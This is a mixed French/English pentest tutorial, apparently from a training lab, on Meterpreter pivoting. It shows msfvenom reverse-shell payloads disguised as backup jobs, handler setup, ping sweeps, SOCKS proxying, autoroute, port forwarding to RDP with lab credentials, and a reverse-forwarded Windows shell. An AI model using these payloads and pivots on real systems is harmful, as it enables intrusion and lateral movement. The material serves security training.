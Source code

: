 # Meterpreter Tunneling & Port Forwarding

## <mark style="color:red;">Meterpreter Tunneling</mark>

#### <mark style="color:green;">Création de la charge utile pour l'hôte pivot Ubuntu</mark>

{% code overflow="wrap" fullWidth="true" %}
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```
{% endcode %}

#### <mark style="color:green;">Configuration et démarrage du multi/handler</mark>

```
msf6 > use exploit/multi/handler

[*] Utilisation de la charge utile configurée generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Démarrage du gestionnaire TCP inverse sur 0.0.0.0:8080
```

#### <mark style="color:green;">Exécution de la charge utile sur l'hôte pivot</mark>

```
ubuntu@WebServer:~$ ls
backupjob
ubuntu@WebServer:~$ chmod +x backupjob
ubuntu@WebServer:~$ ./backupjob
```

#### <mark style="color:green;">Établissement de la session Meterpreter</mark>

{% code fullWidth="true" %}
```
[*] Envoi de l'étape (3020772 octets) à 10.129.202.64
[*] Session Meterpreter 1 ouverte (10.10.14.18:8080 -> 10.129.202.64:39826) à 2022-03-03 12:27:43 -0500
meterpreter > pwd
/home/ubuntu
```
{% endcode %}

{% hint style="warning" %}
Nous savons que la cible Windows est sur le réseau 172.16.5.0/23. En supposant que le pare-feu de la cible Windows autorise les requêtes ICMP, nous voudrions effectuer un balayage ping sur ce réseau. Nous pouvons le faire en utilisant Meterpreter avec le module ping\_sweep, qui générera le trafic ICMP depuis l'hôte Ubuntu vers le réseau 172.16.5.0/23.
{% endhint %}

#### <mark style="color:green;">Balayage Ping</mark>

```
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

#### <mark style="color:green;">Boucle For pour un balayage Ping sur des hôtes Linux</mark>

```
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

#### <mark style="color:green;">Boucle For pour un balayage Ping en utilisant CMD</mark>

```
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

#### <mark style="color:green;">Balayage Ping en utilisant PowerShell</mark>

{% code fullWidth="true" %}
```
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```
{% endcode %}

#### <mark style="color:green;">Configuration du proxy SOCKS de MSF</mark>

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
```

<mark style="color:green;">**Confirming Proxy Server is Running**</mark>

```shell-session
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```

<mark style="color:green;">**Adding a Line to proxychains.conf if Needed**</mark>

```shell-session
socks4 	127.0.0.1 9050
```

{% hint style="warning" %}
Note: Depending on the version the SOCKS server is running, we may occasionally need to changes socks4 to socks5 in proxychains.conf.
{% endhint %}

<mark style="color:green;">**Creating Routes with AutoRoute**</mark>

```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.

```shell-session
meterpreter > run autoroute -s 172.16.5.0/23

```

<mark style="color:green;">**Listing Active Routes with AutoRoute**</mark>

```shell-session
meterpreter > run autoroute -p
```

<mark style="color:green;">**Testing Proxy & Routing Functionality**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

***

## <mark style="color:red;">Port Forwarding</mark>

Port forwarding can also be accomplished using Meterpreter's `portfwd` module. We can enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network.

<mark style="color:green;">**Portfwd options**</mark>

{% code fullWidth="true" %}
```shell-session
meterpreter > help portfwd
```
{% endcode %}

<mark style="color:green;">**Creating Local TCP Relay**</mark>

```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```

The above command requests the Meterpreter session to start a listener on our attack host's local port (`-l`) `3300` and forward all the packets to the remote (`-r`) Windows server `172.16.5.19` on `3389` port (`-p`) via our Meterpreter session. Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session.

<mark style="color:green;">**Connecting to Windows Target through localhost**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```

<mark style="color:green;">**Netstat Output**</mark>

We can use Netstat to view information about the session we recently established. From a defensive perspective, we may benefit from using Netstat if we suspect a host has been compromised. This allows us to view any sessions a host has established.

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ netstat -antp

tcp        0      0 127.0.0.1:54652         127.0.0.1:3300          ESTABLISHED 4075/xfreerdp 
```
{% endcode %}

***

## <mark style="color:red;">Meterpreter Reverse Port Forwarding</mark>

{% hint style="info" %}
Comme pour le **port forwarding local**, Metasploit peut aussi effectuer un **reverse port forwarding**. Ici, on écoute sur un port spécifique du serveur compromis et on redirige toutes les connexions entrantes du serveur Ubuntu vers notre hôte d’attaque. Par exemple, on peut transférer le port 1234 du serveur Ubuntu vers notre port local 8081 et configurer un listener sur ce port pour recevoir une session Windows.
{% endhint %}

<mark style="color:green;">**Reverse Port Forwarding Rules**</mark>

```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```

<mark style="color:green;">**Configuring & Starting multi/handler**</mark>

```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```

<mark style="color:green;">**Generating the Windows Payload**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234
```
{% endcode %}

<mark style="color:green;">**Establishing the Meterpreter session**</mark>

```shell-session
meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```
